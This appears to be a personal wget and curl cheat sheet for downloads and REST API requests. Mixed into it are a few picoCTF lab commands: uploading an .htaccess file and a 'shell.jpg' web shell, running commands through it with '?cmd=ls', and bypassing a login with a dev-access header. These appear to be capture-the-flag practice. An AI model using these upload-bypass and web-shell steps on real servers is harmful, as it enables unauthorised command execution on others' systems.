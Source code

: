 ```bash
nohup wget -b https://example.com/file.zip

wget -r ftp://test.rebex.net --user=demo --password=password
```

### curl - Transfer Data

```bash
# Download file
curl https://example.com/file.txt
# 
curl -F "image=@.htaccess" http://amiable-citadel.picoctf.net:55117/upload.php
curl -F "image=@shell.jpg" http://amiable-citadel.picoctf.net:55117/upload.php
curl "http://amiable-citadel.picoctf.net:55117/images/shell.jpg?cmd=ls"


# Save to file
curl https://example.com/file.txt -o filename.txt

# Follow redirects
curl -L https://example.com/redirect

# 
curl -I https://example.com/

# 
curl -k https://self-signed.badssl.com/

# Send GET request
curl https://dummy.restapiexample.com/api/v1/employees
curl https://dummy.restapiexample.com/api/v1/employees/1
curl https://dummy.restapiexample.com/api/v1/employees/1 curl https://dummy.restapiexample.com/api/v1/employees/2
curl https://dummy.restapiexample.com/api/v1/employees/[1-5]

# Send POST request
curl -X POST http://amiable-citadel.picoctf.net:59505/login \ 
  -H "Content-Type: application/json" \
  -H "X-Dev-Access: yes" \
  -d '{"email":"ctf-player@picoctf.org","password":"anything"}'
# Forn url content type
curl -d "name=Benj&age=23" https://dummy.restapiexample.com/api/v1/create

# Send PUT request
curl -X PUT https://dummy.restapiexample.com/api/v1/update/1 -H "Content-Type: application/json" -d '{"name":"John","age":"23"}'

# Send DELETE request
curl -X DELETE https://dummy.restapiexample.com/api/v1/delete/1 

# Include headers
curl -H "Content-Type: application/json" https://dummy.restapiexample.com/api

# Download with progress bar
curl -# https://example.com/file.txt -o file.txt

# 
curl --header "Host: example.com" http://127.0.0.1:8000

# 
curl --data "name=John&age=23" http://127.0.0.1:8000


```